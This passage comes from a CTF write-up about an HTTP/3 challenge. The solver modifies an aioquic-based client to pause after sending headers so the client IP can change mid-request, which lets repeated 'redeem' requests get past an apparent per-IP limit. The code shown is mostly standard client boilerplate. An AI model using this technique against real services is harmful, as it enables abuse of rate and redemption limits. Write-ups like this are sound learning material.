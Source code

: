 The author of this challenge told me that when sending headers, the code starts to run and after that we can pause to change IP

![image](https://hackmd.io/_uploads/SkhQmGzexl.png)

Ok, for short the attack can be displayed: 

![image](https://hackmd.io/_uploads/Sy68FnZxgl.png)

So the insertion point in the datagram is 

![image](https://hackmd.io/_uploads/By9XqhZgxl.png)

## Solution

We will use the minimal_http3_client.py to modify and exploit. First we can see where to insert the wait for IP change is after the send headers block and before the send data block. We remember that only the second and the third redeem need to change IP so I add a counter to verify.

```python
class Config:
    DEFAULT_PORT = 443
    DEFAULT_TIMEOUT = 30
counter=0

class H3ClientProtocol(QuicConnectionProtocol):
    def __init__(self, *args, **kwargs):
        self.debug = kwargs.pop("debug", None)
        self.authority = kwargs.pop("authority", None)
        super().__init__(*args, **kwargs)
        self._http = H3Connection(self._quic)
        self._request_events: Dict[int, Deque[H3Event]] = {}
        self._request_waiter: Dict[int, asyncio.Future[Deque[H3Event]]] = {}
        self.http_response_headers = OrderedDict()
        self.http_response_data = bytearray()

    def http_event_received(self, event: H3Event) -> None:
        if isinstance(event, (HeadersReceived, DataReceived)):
            stream_id = event.stream_id
            if stream_id in self._request_events:
                # http
                self._request_events[event.stream_id].append(event)
                if event.stream_ended:
                    request_waiter = self._request_waiter.pop(stream_id)
                    request_waiter.set_result(self._request_events.pop(stream_id))

        if isinstance(event, DataReceived):
            self.http_response_data.extend(event.data)

        if isinstance(event, HeadersReceived):
            for k, v in event.headers:
                self.http_response_headers[k.decode()] = v.decode()

    def quic_event_received(self, event):
        if self.debug:
            print(f"[DEBUG] QUIC event: {type(event).__name__}")

        if self._http is not None:
            for http_event in self._http.handle_event(event):
                self.http_event_received(http_event)

        if isinstance(event, StreamDataReceived):
            if self.debug:
                print(f"[DEBUG] Stream: {event.stream_id} Data: {event.data[:100]}...")
```